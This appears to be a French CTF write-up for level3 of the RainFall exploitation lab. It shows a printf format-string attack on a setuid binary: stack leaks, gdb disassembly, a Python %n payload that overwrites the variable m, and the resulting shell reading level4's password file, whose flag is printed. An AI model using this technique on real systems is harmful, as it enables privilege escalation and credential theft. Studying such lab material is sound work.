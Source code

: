 # Level3

```
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
```

Le code decompile nous informe que l'entrée utilisateur est récupérée puis affichée avec printf.
On remarque qu'il n'y a pas de sélecteur (%..) défini avec printf.
Après recherche nous allons exploiter une faille connue sous le nom de "format string".

Nous pouvons afficher ou manipuler le contenu de la stack en injectant les sélecteurs de printf dans l'entrée standard.

```
level3@RainFall:~$ ./level3
%x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825
```
```
level3@RainFall:~$ ./level3
AAAA%x %x %x %x
AAAA200 b7fd1ac0 b7ff37d0 41414141
```

Nous constatons que nous pouvons prendre le contrôle de l'exécution dans la 4e stack frame.
Dans le code nous voyons une condition qui permet de lancer un shell si m == 0x40.

Nous allons récupérer l'adresse de m grace a gdb :
```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax <== adresse de m pour comparaison
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
(gdb) x/x 0x804988c
0x804988c <m>:	0x00000000
```
Maintenant que nous avons l'adresse "0x804988c" nous allons modifier le contenu de "m", grâce qu sélecteur "%n" de printf, qui permet d'écrire dans la mémoire le nombre correspondant aux caractères qui précède "%n".
ex :
```
int i;
printf("Hello%n", &i);
printf(" %d\n", i); // 5
```
Nous allons donc créer le script suivant :
```
python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")' > /tmp/exploit
```
Qui va écrire au 4e de la stackFrame, 64(adresse(4) + caracteres(60)) a l'adresse de "m".

En partant du dernier script, il suffit de mettre nos 60 espaces "%60x", et de donner l'adresse de m a %n pour écrire 64 dedans (0x40 en hexa)

```
level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
?                                                         200
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
